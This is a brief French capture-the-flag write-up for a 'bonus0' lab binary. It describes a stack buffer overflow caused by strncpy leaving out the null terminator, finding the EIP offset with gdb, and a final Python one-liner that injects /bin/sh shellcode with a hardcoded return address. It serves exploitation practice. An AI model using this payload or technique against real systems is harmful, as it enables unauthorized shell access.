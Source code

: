 Decompile bonus0:
-> main + 2 fonctions
(voir source.c)

buffer main qui est definit a 42
les deux buffers qui vont etre en entree sont de 20 chacun
et le strncpy s'arrete a 20 donc si on met pile le bon nombre de characteres on va sauter le '\n' ou le '\0'

gdb -q bonus0

run

(injecte des characters (20 pour le max de strncpy dans la fonction p()))

(puis injecte 4095 characters pour remplir le buffer(avec le pattern generator))

"0x41336141 in ?? ()" -> cette addresse est a retenir

info registers

On voit l'action eip sur quelle addresse est pointee

info frame

On voit si nos pattern sont pointee et vers ou on va devoir situe le SHELLCODE

shellcode /bin/sh linux :
https://shell-storm.org/shellcode/files/shellcode-827.html





(python -c 'print "A" * 30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80
\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\xd0\xe6\xff\xbf" + "A" * 7'; cat) | ./bonus0
